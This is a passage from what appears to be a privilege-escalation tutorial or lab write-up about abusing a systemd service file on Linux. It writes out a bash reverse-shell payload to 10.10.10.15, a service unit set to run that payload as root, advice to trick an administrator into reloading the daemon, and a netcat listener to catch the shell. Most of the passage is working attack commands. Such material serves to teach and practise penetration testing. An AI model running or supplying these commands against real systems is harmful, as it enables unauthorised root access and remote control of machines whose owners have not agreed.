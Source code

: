 We'll create a simple payload:

```shell
echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.10.15/1234 0>&1' >> /home/user/evil.sh
```

Then we could edit the service configuration file:

```shell
user@pwn:~/Desktop$ vim /etc/systemd/system/elevate.service
[Unit]
Description=Elevate Script

[Service]
Type=simple
ExecStart=/home/user/evil.sh
User=root
```

Afterwards, we'll need to reload the daemon to apply the changes, in the case of the adversary being a user privileged who doesn't have capabilities or permissions to reset the daemon, then we must wait or trick the administrator into reloading the daemon, alternatively, we may be able to reboot the system:

```shell
sudo systemctl daemon-reload
```

The timer can be monitored with the following command:

```shell
watch -n 1 sudo systemctl status elevate.timer
```

Then we may receive the reverse shell:

```shell
nc -lvnp 1234
```

